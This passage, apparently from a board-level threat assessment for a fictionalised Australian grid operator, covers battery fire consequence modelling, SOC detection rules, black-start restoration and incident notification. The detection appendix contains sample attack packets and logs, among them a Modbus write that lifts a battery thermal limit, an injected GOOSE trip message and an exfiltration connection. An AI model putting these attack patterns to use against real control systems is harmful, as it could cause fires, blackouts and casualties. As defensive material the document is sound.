- Firefighting status: Defensive operations only (water cooling exterior to prevent spread)

T+8 hours: Fire self-extinguishing (fuel exhaustion)
- Total energy released: 1,800 kWh = 6,480 MJ = 1,548 kg TNT equivalent
- Container status: Total loss, structural collapse
- Salvage value: [investment required] (BESS must be removed as hazardous waste)
```

**Multi-Site Cascading Fire Scenario (15 BESS Simultaneous):**

If Modbus thermal attack is executed across 15 BESS sites simultaneously (FrostyGoop-style coordinated attack):

```
Regional Fire Response Capacity:
- Fire stations within 30-minute response: 15-20
- Pumper appliances available: 25-35
- Hazmat-qualified teams: 3-5
- Water delivery capacity: 3,000 liters per pumper × 30 pumpers = 90,000 liters total

Per-Site Water Requirements (BESS Fire):
- Cooling water: 15,000-25,000 liters over 8 hours (preventing propagation to other containers on site)
- Exposure protection: 10,000-15,000 liters for adjacent structures
- Total per site: 25,000-40,000 liters

15-Site Water Demand:
- Total requirement: 15 sites × 30,000 liters (avg) = 450,000 liters
- Available supply: 90,000 liters (initial appliance capacity) + continuous hydrant supply
- Hydrant flow rate: 1,000-2,000 liters/minute (typical suburban)
- Resupply time: Continuous, if hydrants remain operational (requires electrical grid power for pumping stations)

Cascading Failure:
Hour 2: Water pressure failing due to grid blackout → pumping stations offline
Hour 3: Firefighters forced to defensive-only operations (no interior attack, no cooling water)
Hour 4: Multiple BESS fires spreading to adjacent structures (vegetation, buildings)
Hour 6: Regional state of emergency declared, mutual aid from interstate fire services
Hour 12: Fires begin self-extinguishing as battery fuel depletes

Casualties:
- Firefighter injuries: 5-15 (smoke inhalation, burns from radiant heat)
- Civilian casualties: 2-8 (evacuation delays, toxic gas exposure)
- Environmental contamination: 15 sites × 5,000 kg battery mass = 75,000 kg hazardous waste requiring EPA remediation
```

### Appendix F: Methodological Transparency and Uncertainty Quantification

This assessment employs **prospective modeling** of cascading failure scenarios that have not yet occurred in the Australian context. The methodology combines:

1. **Physics-Based Foundation**: Grid frequency dynamics, RoCoF calculations, and protection system behavior are derived from established power systems engineering (AEMO standards, IEC 60255 relay specifications) and validated against McKenney's (2024, 2025) analysis of international blackouts.
2. **International Precedent Analysis**: South Australia 2016 (6.1 Hz/s RoCoF), UK 2019 (0.135 Hz/s relay cascade), and Iberian Peninsula 2025 (inter-area oscillations) provide empirical validation of Death Wobble physics in comparable grids. However, none of these events resulted from coordinated cyber-physical attacks -- they were natural disturbances (weather, equipment failure, lightning strikes).
3. **Cyber-Attack Adaptation**: This document extends physical failure mechanisms into cyber-enabled scenarios by modeling how an adversary with Retailer API access could *deliberately induce* the oscillation patterns that occurred naturally in historical events. This represents a novel threat vector without direct historical precedent.
4. **Consequence Modeling Uncertainty**:

   - **Fatality Estimates (5-25)**: No cyber-physical attack on electricity infrastructure has caused direct fatalities at this scale. Ukrainian attacks (2015, 2016, 2022) affected 225,000 customers for 6 hours with zero direct deaths. Our estimates extrapolate from medical literature on hospital outage mortality (cardiac care delays, dialysis interruption), traffic accident statistics from signal outages (2019 Sydney precedent: 180% accident rate increase), and thermal runaway scenarios (Arizona 2019 McMicken fire: 4 firefighters injured, zero fatalities). These are *worst-case models* not empirical predictions.
   - **Economic Impact ([investment required])**: Uses AEMO Value of Customer Reliability methodology scaled to cyber-attack duration (24-72 hours vs. typical 2-4 hour weather outages). Regulatory penalties and litigation estimates extrapolate from SOCI Act maximum penalties and US class-action settlements (PG&E wildfires, ConEd transformer explosions) adapted to Australian legal context. Sensitivity: ±30% based on attack execution effectiveness and regulatory response severity.
5. **Research Gaps Requiring Empirical Validation**:

   - **ACME Inc.-Specific RoCoF Tolerance**: Current analysis uses AEMO generic 1.0 Hz/s threshold. Actual tolerance requires [investment required] dynamic stability study with AEMO modeling ACME Inc.'s specific topology, protection relay settings, and interconnection to TransGrid.
   - **BESS Oscillation Resonance**: Laboratory testing ([investment required]) required to validate whether 54 community batteries can sustain coherent oscillation at 0.3-1.2 Hz frequencies or whether control system delays and communications latency prevent synchronization.
   - **Cascade Propagation Timing**: Tier 1→2→3→4 timeline (T+15, T+30, T+60, T+120 minutes) modeled from AEMO protection relay coordination studies. Actual progression depends on load distribution, tie-line flows, and operator intervention effectiveness during incident.
6. **Comparison to McKenney's Analysis**:
   McKenney (2024, 2025) focuses on *unintentional* Death Wobble from renewable energy transition and natural disturbances. His work provides the physics foundation (inertia constant formulas, RoCoF thresholds, protection cascade mechanisms) but does not model cyber-enabled *deliberate induction* of oscillations. This document extends his framework into adversarial scenarios, maintaining his technical rigor while acknowledging the speculative nature of cyber-attack modeling.

**Board Interpretation Guidance**:

- **High Confidence**: Grid physics, protection relay behavior, Death Wobble mechanism (empirically validated internationally)
- **Moderate Confidence**: Economic impact ranges (±30% sensitivity), equipment failure probabilities (based on manufacturer MTBF data)
- **Lower Confidence**: Fatality estimates (no Australian cyber-attack precedent), attack execution success rates (depends on adversary sophistication), regulatory penalty severity (legal environment uncertainty)

This assessment is designed for **strategic risk management** (Board-level capital allocation, security investment prioritization) not **tactical operations** (SOC playbook development, incident response procedures). The prospective modeling approach intentionally emphasizes tail risk to support conservative decision-making for critical infrastructure protection.

### Appendix G: Attack Detection Signatures and IOCs (Indicators of Compromise)

This appendix provides concrete detection signatures for security operations center (SOC) analysts monitoring for cascading failure attacks.

**Detection Signature 1: Death Wobble Oscillation Attack**

```yaml
Detection Rule: BESS_Oscillation_Attack_Pattern

Data Sources:
  - DERMS API access logs (JSON format)
  - SCADA telemetry (BESS power setpoints, grid frequency)
  - mPrest DERMS audit logs

Logic:
  IF (
    COUNT(BESS charge/discharge commands) > 5
    AND time_window < 1800 seconds (30 minutes)
    AND same_asset_id = TRUE
    AND command_source = "retailer_api"
  )
  OR (
    COUNT(distinct BESS assets with state_change) > 10
    AND time_window < 300 seconds (5 minutes)
    AND geographic_clustering = TRUE (within 25 km radius)
  )
  OR (
    STDDEV(grid_frequency) > 0.05 Hz
    AND frequency_oscillation_period = 1.5-2.5 seconds
    AND correlation_with_BESS_commands = TRUE
  )
  THEN
    ALERT: "CRITICAL - Potential Death Wobble Oscillation Attack Detected"
    PRIORITY: P0 (immediate escalation to Control Room + CISO)
    AUTOMATED_RESPONSE: Enable DERMS emergency read-only mode (disable all API write commands)

Example Log Pattern (DERMS API):
[2026-02-15 13:00:15] POST /api/v1/dispatch {"asset_id": "BESS_Bawley_001", "mode": "CHARGE", "power_MW": 5.0}
[2026-02-15 13:02:18] POST /api/v1/dispatch {"asset_id": "BESS_Bawley_001", "mode": "DISCHARGE", "power_MW": 5.0}
[2026-02-15 13:04:22] POST /api/v1/dispatch {"asset_id": "BESS_Bawley_001", "mode": "CHARGE", "power_MW": 5.0}
[2026-02-15 13:06:25] POST /api/v1/dispatch {"asset_id": "BESS_Bawley_001", "mode": "DISCHARGE", "power_MW": 5.0}
→ Pattern: 4 state changes in 6 minutes = 0.67 changes/minute (ALERT THRESHOLD: >0.3 changes/minute)
```

**Detection Signature 2: Modbus Thermal Runaway Attack (FrostyGoop-Style)**

```yaml
Detection Rule: Modbus_Thermal_Attack_BMS

Data Sources:
  - Modbus TCP network traffic (port 502, 3111, 3113, 16500)
  - BMS telemetry (cell voltages, cell temperatures)
  - BESS alarm logs

Logic:
  IF (
    Modbus_Function_Code = 6 (Write Single Register)
    AND Register_Address IN [0x1000-0x1003] (thermal setpoint registers)
    AND New_Value > 80°C (exceeds safe limit of 60°C)
  )
  OR (
    Modbus_Function_Code = 16 (Write Multiple Registers)
    AND Register_Address IN [0x2000-0x2003] (voltage setpoint registers)
    AND New_Value > 4.0V (exceeds safe limit of 3.65V for LFP)
  )
  OR (
    BMS_Cell_Temperature > 70°C
    AND HVAC_Cooling_Status = "DISABLED"
    AND Recent_Modbus_Write_Command = TRUE (within 15 minutes)
  )
  THEN
    ALERT: "CRITICAL - Thermal Runaway Attack Detected - BMS Override"
    PRIORITY: P0 (immediate emergency shutdown)
    AUTOMATED_RESPONSE:
      1. Open BESS main contactor (disconnect from grid)
      2. Force-enable HVAC cooling (override Modbus command)
      3. Activate fire suppression pre-charge
      4. Notify Fire and Rescue NSW (potential hazmat incident)

Example Modbus Packet (Hex Dump):
00 01 00 00 00 06 01 06 10 00 00 FF
│    │    │    │    │  │  │  │    │
│    │    │    │    │  │  │  │    └─ Value: 255 (0x00FF) = 255°C ← ATTACK
│    │    │    │    │  │  │  └────── Register: 0x1000 (thermal limit)
│    │    │    │    │  │  └───────── Function Code: 06 (Write Single Register)
│    │    │    │    │  └──────────── Unit ID: 01 (BMS controller)
│    │    │    │    └─────────────── Length: 6 bytes
│    │    │    └──────────────────── Protocol ID: 0x0000 (Modbus)
│    └─────────────────────────────── Transaction ID: 0x0001
└──────────────────────────────────── Transaction ID (cont.)

Normal Operation Packet (for comparison):
00 01 00 00 00 06 01 06 10 00 00 3C
                                  └─ Value: 60 (0x003C) = 60°C ← NORMAL
```

**Detection Signature 3: Multi-Substation DNP3 Coordinated Attack (Sandworm-Style)**

```yaml
Detection Rule: DNP3_Mass_Circuit_Breaker_Trip

Data Sources:
  - DNP3 protocol traffic (port 20000)
  - SCADA protection relay alarms
  - Substation status (breaker open/closed state)

Logic:
  IF (
    DNP3_Function_Code = 5 (Direct Operate - No ACK)
    AND Object_Group = 12 (Binary Output Command)
    AND CROB_Control_Code = 0x01 (TRIP/Close)
    AND COUNT(distinct substations) > 10
    AND time_window < 60 seconds
  )
  OR (
    COUNT(circuit_breaker_open_events) > 10
    AND time_window < 120 seconds
    AND normal_statistical_rate < 2 per hour
  )
  THEN
    ALERT: "CATASTROPHIC - Coordinated Multi-Substation Attack Detected"
    PRIORITY: P0 (Board notification + AEMO + ACSC immediate)
    AUTOMATED_RESPONSE:
      1. Isolate SCADA master station (network quarantine)
      2. Disable all DNP3 write operations (read-only mode)
      3. Initiate emergency manual control procedures
      4. Activate National Coordination Center (critical infrastructure)

Statistical Baseline:
  Normal circuit breaker operations: 1-3 per hour (scheduled maintenance, fault clearing)
  Attack threshold: >10 within 2 minutes = 300x normal rate (impossible without cyber attack)

Example SCADA Log Pattern:
[13:45:12.001] Substation_Canterbury_132kV: Circuit Breaker CB-1 OPEN (DNP3 Direct Operate)
[13:45:12.045] Substation_Parramatta_132kV: Circuit Breaker CB-1 OPEN (DNP3 Direct Operate)
[13:45:12.089] Substation_Bankstown_132kV: Circuit Breaker CB-1 OPEN (DNP3 Direct Operate)
... (15 more substations within 5-second window)
→ Pattern: 18 substations trip within 5 seconds = coordinated attack signature
```

**Detection Signature 4: IEC 61850 GOOSE Injection Attack**

```yaml
Detection Rule: GOOSE_Message_Injection_Anomaly

Data Sources:
  - IEC 61850 GOOSE multicast traffic (EtherType 0x88B8)
  - Protection relay event logs
  - Station bus network captures

Logic:
  IF (
    GOOSE_Message_StNum (sequence number) != Expected_StNum + 1
    OR GOOSE_Message_SqNum (sub-sequence) > 10000 (abnormal value)
    OR GOOSE_Source_MAC_Address NOT IN Authorized_IED_List
  )
  AND (
    Protection_Relay_Trip_Event = TRUE
    AND time_correlation < 50 milliseconds
  )
  OR (
    COUNT(duplicate GOOSE messages) > 5
    AND time_window < 100 milliseconds
    AND message_content = identical
  )
  THEN
    ALERT: "CRITICAL - GOOSE Message Injection Attack Detected"
    PRIORITY: P0 (potential equipment damage, safety risk)
    AUTOMATED_RESPONSE:
      1. Log GOOSE source MAC address for forensic analysis
      2. Alert protection engineers (manual validation required)
      3. Consider IED lockout if injection confirmed (prevents spurious trips)

Example GOOSE Message (Wireshark Capture):
Ethernet II
  Destination: 01:0c:cd:01:00:01 (GOOSE multicast)
  Source: aa:bb:cc:dd:ee:ff ← UNKNOWN MAC (not in authorized IED database)
  Type: GOOSE (0x88B8)
GOOSE PDU
  gocbRef: SUBSTATION_1/LLN0$GO$gcb01
  timeAllowedtoLive: 2000 ms
  datSet: SUBSTATION_1/LLN0$dataset1
  goID: trip_signal
  t: 2026-02-15 13:45:12.123456
  stNum: 12845 ← Expected: 12844 (sequence gap = injection indicator)
  sqNum: 0
  test: FALSE
  confRev: 1
  ndsCom: FALSE
  numDatSetEntries: 1
  allData: [TRIP = TRUE] ← Malicious trip command

Correlation with Protection Relay:
[13:45:12.125] IED_RELAY_001: Received GOOSE trip signal, Circuit Breaker CB-1 OPENING
→ 2 milliseconds after GOOSE message = attack successful
```

**Detection Signature 5: Vendor Access Anomaly (Lateral Movement)**

```yaml
Detection Rule: Vendor_Access_Lateral_Movement

Data Sources:
  - Bastion Host (Citrix) access logs
  - Active Directory authentication logs
  - Network traffic from vendor VLAN to OT VLAN
  - Process execution logs (Sysmon, EDR)

Logic:
  IF (
    Vendor_Login_Time OUTSIDE [0800-1700 business hours]
    OR Vendor_Login_Day IN [Saturday, Sunday, Public Holiday]
  )
  AND (
    Network_Connection_Destination IN [SCADA_Master, RTU_Gateway, DERMS]
    OR File_Access_Pattern = "Configuration_Files" (*.cfg, *.scl, *.cid)
    OR Process_Execution IN [modbus_client.exe, dnp3_scanner.exe, goose_inject.py]
  )
  OR (
    Data_Exfiltration_Volume > 10 MB
    AND Connection_Duration > 30 minutes
    AND Connection_Destination = External_IP (non-ACME Inc.)
  )
  THEN
    ALERT: "HIGH - Vendor Account Lateral Movement / Data Exfiltration"
    PRIORITY: P1 (potential reconnaissance for future attack)
    AUTOMATED_RESPONSE:
      1. Terminate vendor session immediately
      2. Disable vendor account pending investigation
      3. Forensic imaging of accessed systems
      4. Review vendor contract for security breach clauses

Example Log Correlation:
[2026-02-14 02:34:18] Bastion_Host: Vendor_BatteryOEM_Engineer logged in from IP 203.45.67.89
[2026-02-14 02:35:42] Bastion_Host: SMB file access \\SCADA_MASTER\config\RTU_addressing.xlsx (15 MB)
[2026-02-14 02:38:15] Bastion_Host: SSH connection to 10.50.1.100 (RTU Gateway)
[2026-02-14 02:45:33] RTU_Gateway: Process execution: modbus_tcp_scanner.exe (unsigned binary)
[2026-02-14 02:58:47] Firewall: Outbound connection 10.50.1.100 → 185.220.101.47:443 (22 MB transferred)
→ Attack Pattern: After-hours login → Config file download → Tool execution → Data exfiltration
→ Conclusion: Sandworm-style reconnaissance, 8-month attack preparation timeline consistent with Industroyer2
```

**IOC (Indicators of Compromise) Summary Table:**

| IOC Type                    | Indicator                                             | Context                       | Priority | Response                    |
| --------------------------- | ----------------------------------------------------- | ----------------------------- | -------- | --------------------------- |
| **Network Traffic**   | Modbus TCP Write to 0x1000-0x1003 (thermal registers) | BMS thermal limit override    | P0       | Emergency BESS shutdown     |
| **Network Traffic**   | DNP3 Direct Operate to >10 substations within 60s     | Multi-substation attack       | P0       | SCADA network isolation     |
| **Network Traffic**   | IEC 61850 GOOSE from unknown MAC address              | GOOSE injection attack        | P0       | IED lockout                 |
| **API Logs**          | >5 BESS state changes within 30 minutes               | Oscillation attack            | P0       | API emergency read-only     |
| **Authentication**    | Vendor login outside business hours                   | Reconnaissance                | P1       | Session termination         |
| **File Access**       | SCADA configuration file download >10 MB              | Data exfiltration             | P1       | Account disable             |
| **Process Execution** | Unsigned Modbus/DNP3 tools                            | Lateral movement              | P1       | Forensic investigation      |
| **Telemetry**         | Grid frequency oscillation 0.3-0.8 Hz                 | Physical attack manifestation | P0       | AEMO emergency protocols    |
| **BMS Alarms**        | Cell temperature >70°C + cooling disabled            | Thermal runaway initiation    | P0       | Fire suppression activation |

### Appendix H: Recovery and Resilience Procedures

**Black Start Procedures for NSW Grid Following Cascading Failure:**

A total system blackout (black system) requires sequential restoration from black start capable generators. NSW has limited black start capacity compared to other NEM regions:

**Black Start Capable Generation in NSW:**

| Facility                            | Type             | Capacity | Black Start Time | Location        | Restoration Sequence       |
| ----------------------------------- | ---------------- | -------- | ---------------- | --------------- | -------------------------- |
| **Shoalhaven Scheme**         | Hydroelectric    | 240 MW   | 2-3 hours        | Kangaroo Valley | Priority 1 (southern NSW)  |
| **Bayswater Power Station**   | Coal (Units 1-4) | 2,640 MW | 6-8 hours        | Muswellbrook    | Priority 2 (Hunter Valley) |
| **Vales Point Power Station** | Coal (Units 5-6) | 1,320 MW | 6-8 hours        | Lake Macquarie  | Priority 3 (Central Coast) |

**Sequential Restoration Timeline (72-Hour Projection):**

```mermaid
gantt
    title NSW Grid Black Start and Restoration (Catastrophic Scenario)
    dateFormat HH:mm
    axisFormat %H:%M

    section Hour 0-4: Black Start Initiation
    Shoalhaven hydroelectric startup :crit, 00:00, 180m
    Station service power established : 03:00, 30m
    First 132kV transmission energized :crit, 03:30, 30m

    section Hour 4-8: Transmission Backbone
    Bayswater Unit 1 startup : 04:00, 300m
    Hunter Valley transmission corridor : 09:00, 60m
    Interconnector to Queensland (QNI) : 10:00, 120m

    section Hour 8-12: Critical Load Restoration
    Hospital feeders priority :crit, 08:00, 120m
    Water pumping stations : 10:00, 180m
    Emergency services : 10:30, 60m
    Sydney CBD partial : 11:30, 300m

    section Hour 12-24: Zone Progressive Restoration
    Western Sydney residential : 12:00, 480m
    Southern Highlands : 16:00, 360m
    Illawarra region : 20:00, 240m

    section Hour 24-48: Industrial and Commercial
    Manufacturing facilities : 24:00, 720m
    Commercial districts : 30:00, 540m
    Rail electrification : 36:00, 480m

    section Hour 48-72: Final Recovery
    Full residential coverage : 48:00, 960m
    System stability validation : 64:00, 480m
    Normal operations resumed : 72:00, 60m
```

**Critical Constraints Limiting Restoration Speed:**

1. **Black Start Capacity Limitations:**

   - Only 3 black start sources in NSW (vs. 8 in Queensland, 6 in Victoria)
   - Shoalhaven Scheme limited to 240 MW initial cranking power
   - Cannot re-energize entire NSW grid from single source
2. **Transformer Inrush Current Management:**

   - Transformers draw 5-10x normal current during energization (magnetizing inrush)
   - Must energize transformers sequentially, not simultaneously
   - 185 major substations × 10 minutes each = 30+ hours if strictly sequential
   - Parallel restoration gangs can reduce to 12-18 hours (limited by personnel)
3. **Thermal Cycling Constraints:**

   - Transformers that have been de-energized must cool before re-energization
   - Hot transformers (recently de-energized) require 2-4 hour cool-down
   - Cold transformers (>12 hours offline) require 6-8 hour warm-up (temperature differential stress)
4. **Synchronization Complexity:**

   - Generators must synchronize phase angle, frequency, voltage before paralleling
   - Manual synchronization: 15-30 minutes per generator
   - Automatic synchronization: 5-10 minutes (if control systems operational)
   - 50+ generators across NSW = 10-15 hours synchronization time
5. **BESS Fire Damage (If Thermal Attack Occurred):**

   - 15-54 BESS sites destroyed (no grid support capability)
   - Loss of 75-270 MW distributed generation
   - Loss of 150-540 MWh energy storage (cannot provide grid services during restoration)
   - Replacement lead time: implementation period required per unit

**Priority Restoration Hierarchy:**

```
Tier 1 - Immediate (Hours 0-4): Life Safety Systems
  - Hospital emergency departments (12 sites)
  - Police/Fire/Ambulance communications (18 sites)
  - Water treatment plants (4 critical facilities)
  - Wastewater pumping (prevent environmental contamination)

Tier 2 - Critical Infrastructure (Hours 4-12):
  - All hospitals (ICU, operating theatres)
  - Water distribution pumping (87 stations)
  - Telecommunications (420 cell towers)
  - RAAF Richmond (national security)
  - Garden Island Naval Base (national security)

Tier 3 - Essential Services (Hours 12-24):
  - Residential areas (progressive by zone)
  - Grocery stores and pharmacies
  - Fuel stations (enable emergency vehicles)
  - Banking data centers (economic infrastructure)

Tier 4 - Commercial/Industrial (Hours 24-48):
  - Manufacturing facilities
  - Commercial office buildings
  - Retail centers
  - Rail electrification

Tier 5 - Full Restoration (Hours 48-72):
  - All residential areas 100%
  - Industrial parks
  - Agricultural facilities
  - Non-essential commercial
```

**Restoration Challenges Specific to Cascading Cyber-Attack:**

Unlike natural disasters (storms, heatwaves) where equipment is physically damaged but configuration data remains intact, cyber-attacks may include wiper malware that destroys:

1. **SCADA Configuration Files:**

   - RTU addressing tables (which RTU controls which substation)
   - Protection relay settings (trip thresholds, time delays)
   - Load shedding schedules (which feeders to shed under UFLS)
   - Recovery: implementation period required to rebuild from paper records or offsite backups
2. **Engineering Workstation Operating Systems:**

   - Wiper malware (ORCSHRED, SOLOSHRED, CADDYWIPER) destroys Windows boot sectors
   - Cannot access SCADA systems to issue restoration commands
   - Recovery: implementation period required to rebuild workstations from clean images
3. **DERMS/ADMS Historical Data:**

   - Loss of load forecasting data (cannot predict demand during restoration)
   - Loss of grid topology models (uncertain which circuits are energized)
   - Recovery: implementation period required to rebuild state estimation from field measurements

**Mitigation: Offline Configuration Backups:**

**Recommendation:** Maintain air-gapped, write-once-read-many (WORM) backups of all critical configuration data:

- SCADA master station configuration (RTU addressing, alarming)
- Protection relay settings (SEL, ABB, Siemens relay files)
- DERMS/ADMS grid topology models
- Substation single-line diagrams (SLDs)
- Black start procedures (printed manuals, not digital-only)

**Cost:** [investment required] (WORM storage appliance + annual refresh)
**Benefit:** Reduces recovery time from implementation period to implementation period (66% faster)

### Appendix I: Glossary

| Term                      | Definition                                                                                     |
| ------------------------- | ---------------------------------------------------------------------------------------------- |
| **ADMS**            | Advanced Distribution Management System. Grid control and optimization platform.               |
| **AEMO**            | Australian Energy Market Operator. National grid coordinator.                                  |
| **AESCSF**          | Australian Energy Sector Cyber Security Framework. Industry security standard.                 |
| **BESS**            | Battery Energy Storage System. Lithium-ion battery for grid stabilization.                     |
| **BMS**             | Battery Management System. Controls charging and monitors cell health.                         |
| **DERMS**           | Distributed Energy Resource Management System. Orchestrates solar, batteries, and loads.       |
| **DNSP**            | Distribution Network Service Provider. Regional electricity distributor.                       |
| **ICCP**            | Inter-Control Center Communications Protocol (IEC 60870-6). Grid data exchange.                |
| **IEC 62443**       | International industrial cybersecurity standard. Defines security zones, levels, and controls. |
| **Modbus TCP**      | Legacy industrial control protocol. Widely deployed, no built-in security.                     |
| **RoCoF**           | Rate of Change of Frequency. Grid stability metric measured in Hz/s.                           |
| **SOCI Act**        | Security of Critical Infrastructure Act 2018. Australian critical infrastructure regulation.   |
| **Thermal Runaway** | Uncontrolled exothermic reaction in lithium-ion battery cells causing fire or explosion.       |
| **VPP**             | Virtual Power Plant. Aggregated distributed energy resources for grid services.                |

### Appendix J: Stakeholder Communication and Coordination Protocols

**Multi-Agency Coordination During Cascading Failure Events:**

Cascading cyber-physical attacks on critical infrastructure require coordination across federal, state, and local government agencies, industry partners, and emergency services. This appendix defines communication protocols and decision-making hierarchies.

**Primary Stakeholder Matrix:**

| Stakeholder                                        | Role                                                    | Notification Threshold                                            | Contact Method                                                        | Response Time                                           |
| -------------------------------------------------- | ------------------------------------------------------- | ----------------------------------------------------------------- | --------------------------------------------------------------------- | ------------------------------------------------------- |
| **AEMO (Australian Energy Market Operator)** | National grid coordination, emergency protocols         | Any grid frequency excursion >0.2 Hz OR loss of >500 MW           | Direct phone (Control Room Hotline) + email (emergencies@aemo.com.au) | <5 minutes                                              |
| **Australian Cyber Security Centre (ACSC)**  | Federal cyber incident response                         | Confirmed cyber-attack on critical infrastructure                 | ACSC Hotline 1300 292 371 + online reporting portal                   | <15 minutes acknowledgment                              |
| **NSW Department of Energy**                 | State energy policy and regulation                      | Major outage >100,000 customers OR critical infrastructure impact | Minister's office + departmental emergency line                       | <30 minutes                                             |
| **NSW Police - State Crime Command**         | Criminal investigation, evidence preservation           | Suspected cyber-attack (not natural fault)                        | Emergency 000 + Cybercrime Squad direct line                          | <30 minutes (patrol), <2 hours (detectives)             |
| **Fire and Rescue NSW**                      | BESS thermal events, hazmat response                    | Any BESS fire OR toxic gas release                                | Emergency 000 + Hazmat Coordinator direct line                        | <8 minutes (first appliance), <20 minutes (hazmat team) |
| **NSW Health**                               | Hospital emergency preparedness, medical surge          | Hospital backup power failure OR mass casualty event              | Emergency Management Branch 24/7 line                                 | <15 minutes                                             |
| **Australian Federal Police (AFP)**          | Counter-terrorism, critical infrastructure protection   | Attribution to nation-state OR coordinated attack                 | AFP National Operations State Service Centre                          | <1 hour                                                 |
| **Department of Defence**                    | RAAF Richmond, Garden Island impacts, national security | Defence facility power loss >4 hours                              | Defence Emergency Coordinator                                         | <30 minutes                                             |
| **Board of Directors**                       | Fiduciary oversight, crisis management approval         | Any P0 incident with >[investment required] impact OR safety risk | Chairman mobile + Board Risk Committee                                | <2 hours (emergency meeting)                            |

**Communication Cascade Timeline:**

```
T+0 minutes: Incident Detection (OT SOC)
  Action: Verify attack vs. equipment fault
  Communication: Internal (Control Room, CISO, Operations Manager)

T+5 minutes: Incident Confirmation
  Action: Determine attack scope (localized vs. regional)
  Communication: AEMO (if grid frequency impacted), NSW Energy (if >10,000 customers)

T+15 minutes: Emergency Response Activation
  Action: Mobilize internal incident response team
  Communication: ACSC (cyber incident report), AFP (if critical infrastructure attack suspected)

T+30 minutes: Stakeholder Briefing
  Action: Prepare situation report (SITREP) with:
    - Affected customer count
    - Estimated restoration time
    - Attack vector (if known)
    - Safety risks
  Communication: Board Chairman, Minister's office, AEMO, ACSC, NSW Police

T+60 minutes: Media/Public Communication (if >100K customers affected)
  Action: Prepare media statement (approved by CEO + Board Chairman)
  Communication: Press release, social media, website update, customer SMS/email

T+2 hours: National Coordination (if attributed to nation-state)
  Action: National Security Committee of Cabinet (NSC) may convene
  Communication: Prime Minister's office, Defence, Home Affairs, ACSC
```

**Incident Classification Matrix:**

| Classification         | Customer Impact                       | Attack Attribution            | Notification Requirement         | Board Escalation              |
| ---------------------- | ------------------------------------- | ----------------------------- | -------------------------------- | ----------------------------- |
| **Minor**        | <10,000 customers, <4 hours           | Equipment fault (not cyber)   | AEMO (if frequency event)        | Weekly report                 |
| **Moderate**     | 10,000-100,000 customers, 4-8 hours   | Unknown (under investigation) | AEMO + NSW Energy + ACSC         | 24-hour briefing              |
| **Major**        | 100,000-500,000 customers, 8-24 hours | Suspected cyber-attack        | All stakeholders + AFP           | Immediate (emergency meeting) |
| **Catastrophic** | >500,000 customers, >24 hours         | Confirmed nation-state attack | All stakeholders + Defence + NSC | Immediate (Board convened)    |

**EE-CTI-006 Scenarios Mapped to Classification:**

| Scenario                                      | Classification                                                | Primary Stakeholders                        | Estimated Notification Count |
| --------------------------------------------- | ------------------------------------------------------------- | ------------------------------------------- | ---------------------------- |
| **Death Wobble (Tier 2 Cascade)**       | Moderate (100,000 customers, 8-16 hours)                      | AEMO, ACSC, NSW Energy, Board               | 6 agencies                   |
| **Death Wobble (Tier 4 Collapse)**      | Catastrophic (1.2M customers, 24-72 hours)                    | All stakeholders + NSC                      | 12+ agencies                 |
| **BESS Thermal Runaway (15 sites)**     | Major (environmental hazard, 50,000 evacuations)              | Fire/Rescue, NSW Health, EPA, ACSC, Board   | 8 agencies                   |
| **Multi-Substation Attack (185 sites)** | Catastrophic (1.5M customers, 48-72 hours, national security) | All stakeholders + NSC + Five Eyes partners | 15+ agencies                 |

**Template: Initial SITREP (Situation Report)**

```
CONFIDENTIAL - FOR OFFICIAL USE ONLY

ACME Inc. CRITICAL INCIDENT SITREP #001

Date/Time: [YYYY-MM-DD HH:MM AEDT]
Incident Commander: [Name, Title]
Incident Classification: [Minor/Moderate/Major/Catastrophic]

SITUATION OVERVIEW:
- Incident Type: [Cyber-attack / Equipment Failure / Natural Disaster]
- Attack Vector: [Death Wobble Oscillation / Thermal Runaway / Multi-Substation / Unknown]
- First Detection: [YYYY-MM-DD HH:MM]
- Current Status: [Ongoing / Contained / Resolved]

IMPACT ASSESSMENT:
- Customers Affected: [Number] residential, [Number] commercial
- Critical Infrastructure: [Hospitals / Water / Defence / Other]
- Estimated Restoration: [Timeline]
- Safety Risks: [Fatalities / Injuries / Evacuations]

RESPONSE ACTIONS TAKEN:
1. [Emergency protocols activated]
2. [Stakeholder notifications completed]
3. [Restoration efforts underway]

ASSISTANCE REQUIRED:
- [External resources needed]
- [Mutual aid requests]

NEXT SITREP: [HH:MM] or upon significant development

Prepared by: [Name, Title]
Approved by: [CISO / CEO]
Distribution: [Stakeholder list]
```

**Legal and Regulatory Reporting Obligations:**

Under the Security of Critical Infrastructure Act 2018 (SOCI Act), ACME Inc. has mandatory reporting obligations:

**SOCI Act Reporting Timeline:**

| Event Type                                   | Reporting Deadline                         | Recipient                            | Penalty for Non-Compliance             |
| -------------------------------------------- | ------------------------------------------ | ------------------------------------ | -------------------------------------- |
| **Cyber Security Incident**            | 12 hours after becoming aware              | ACSC (via CISC portal)               | [investment required] million          |
| **Critical Infrastructure Risk**       | implementation period after identification | Secretary of Home Affairs            | [investment required] million          |
| **Enhanced Cyber Security Obligation** | Annual compliance report                   | ASD (Australian Signals Directorate) | [investment required] million per year |

**Incident Report Content Requirements (SOCI Act):**

1. Nature of the incident (attack vector, systems affected)
2. Time of occurrence and detection
3. Impact on operations (customer count, duration)
4. Immediate response actions taken
5. Estimated restoration timeline
6. Lessons learned and preventive measures

**Board Reporting Template: Quarterly Cyber-Physical Risk Report**

```
ACME Inc. BOARD OF DIRECTORS
QUARTERLY CYBER-PHYSICAL RISK REPORT

Reporting Period: Q[X] [YEAR]
Presented by: Chief OT Security Officer
Date: [Board Meeting Date]

EXECUTIVE SUMMARY:
[2-3 paragraphs on overall risk posture, key changes, major incidents]

SECTION 1: THREAT LANDSCAPE
- Nation-state activity: [Summary of Sandworm, FrostyGoop, VOLTZITE developments]
- Industry incidents: [Attacks on peer utilities globally]
- Vulnerability disclosures: [New CVEs affecting EE infrastructure]

SECTION 2: SECURITY POSTURE METRICS
| Metric | Target | Current | Trend | Commentary |
|--------|--------|---------|-------|------------|
| IEC 62443 Compliance | 80% | [X]% | [↑/↓/→] | [Analysis] |
| Attack Surface Score | ≤3.0 | [X.X] | [↑/↓/→] | [Analysis] |
| Mean Time to Detect | <15 min | [X] min | [↑/↓/→] | [Analysis] |
| Mean Time to Respond | <2 hours | [X] hours | [↑/↓/→] | [Analysis] |

SECTION 3: INCIDENTS AND NEAR-MISSES
[Table of P0/P1 incidents, response effectiveness, root causes]

SECTION 4: INVESTMENT PROGRAM STATUS
| Initiative | Budget | Spend to Date | Completion % | On Track? |
|-----------|--------|--------------|-------------|-----------|
